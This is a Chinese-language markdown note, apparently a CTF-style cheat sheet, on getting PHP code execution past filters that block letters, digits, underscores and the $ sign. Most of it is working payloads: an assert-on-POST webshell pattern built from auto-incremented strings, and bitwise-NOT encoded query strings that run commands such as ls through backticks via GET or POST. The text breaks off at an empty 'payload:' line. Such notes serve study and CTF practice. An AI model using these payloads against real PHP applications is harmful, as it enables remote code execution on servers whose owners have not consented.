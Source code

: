 
## assert(PHP5)

`assret($_POST['_']);`

使用**自增POC生成脚本.php**        

- #我发现post=POST能生成`_POST`,如果上传post=`_POST`则不行,应该是脚本问题

上传的payload是:

?cmd加上脚本生成的内容    加上`$__ = $$____;$_($__[_]);`

其中`$_`是ASSERT     `$____`是_POST

搭配post提交



## 反引号(PHP7)

使用**自增POC生成脚本.php**        

`cmd=assert`

`post=POST`

上传的payload是

?cmd加上脚本生成的内容    加上\$\_\_=\$\$\_\_\_\_;\`\$\_\_[\_]\`;



# 无字母数字特殊符号过滤绕过

## \_\_过滤绕过

`?cmd=?>>?=phpinfo();?>`    可以直接执行

POST:

?cmd=?><?=`{${~"%a0%af%b0%ac%ab"}['-']}`;?>

post提交:   -=ls     执行命令



GET:

?cmd=?><?=`{${~"%a0%b8%ba%ab"}['-']}`;?>&-=ls



## 下划线和\$过滤绕过

### (PHP7)

**call_user_func()**

payload:
